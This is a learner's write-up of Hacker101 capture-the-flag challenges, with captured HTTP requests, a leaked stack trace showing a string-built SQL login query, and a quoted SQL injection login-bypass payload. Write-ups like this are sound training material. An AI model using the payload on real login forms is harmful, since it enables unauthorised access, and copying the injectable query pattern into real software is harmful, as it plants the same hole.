






# CTF Hacker101.com

⚠️ SPOILER ALERT ⚠️

In this file I'll post the solutions to the CTF from the Hacker101 website, if you want to go through the challenge by yourself, don't read it yet!

## 1 -- A little something to get you started (trivial)

This webpage is only a message welcoming you.

I inspected the request to get to the page to see if the flags would be hidden in the headers but it was not.

```http
GET /cd2dc81eb7/ HTTP/1.1
Host: 34.74.105.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,fr;q=0.8,fr-FR;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

Then I went to peek to the source code, nothing fancy except that their is a css style requesting a `background-image` but the page is fully white which is kind of weird :p



Then on the network ta we can see also a request to that background image



We get the url for this background image `http://34.74.105.127/cd2dc81eb7/background.png`, and voilà!



Effectively an easy flag, my first one :)

## 2 -- Micro-CMS v1 (easy)

Can't reach the page, I don't know if it's part of the challenge or not? I'll go back later.

## 3 -- Micro-CMS v2 (medium)

Let's look at the request again to get to the challenge

```
GET /f02851105b/ HTTP/1.1
Host: 34.74.105.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,fr;q=0.8,fr-FR;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

Let's move on to the page and the source code



We have two links in a list that map to requests to `page/1` and `page/2` and a route to create a new page `page/create`.

### page/1

```
GET /f02851105b/page/1 HTTP/1.1
Host: 34.74.105.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,fr;q=0.8,fr-FR;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://34.74.105.127/f02851105b/
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```



#### edit/1

```
GET /f02851105b/page/edit/1 HTTP/1.1
Host: 34.74.105.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,fr;q=0.8,fr-FR;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://34.74.105.127/f02851105b/page/1
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

```
GET /f02851105b/login HTTP/1.1
Host: 34.74.105.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,fr;q=0.8,fr-FR;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://34.74.105.127/f02851105b/page/1
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```



I tried to log in with **admin/admin** and here is the request

```
POST /f02851105b/login HTTP/1.1
Host: 34.74.105.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,fr;q=0.8,fr-FR;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://34.74.105.127
DNT: 1
Connection: close
Referer: http://34.74.105.127/f02851105b/login
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

username=admin&password=admin
```

Now I try with `<script>alert('toto');:` in the username and in the password field, and I get greeted with a nice stacktrace:

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'toto');:'' at line 1")
```

That might indicates that an SQL injection is doable maybe?

After trying with less characters, I found that with only the `'` char I can trigger this error.

In the video from Hacker101, they mentionned that `UNION` might be handy, so tried a bunch of query but with no success. After looking for some help, I found that there is a [writeup for this CTF](https://github.com/testerting/hacker101-ctf)

It says they used `' UNION SELECT '123' AS password#` for the query to put into the login form.
The missing part for me was the `#` at the end. It serves to comment the rest of the line, and that allows to control a bit more what goes into the query.
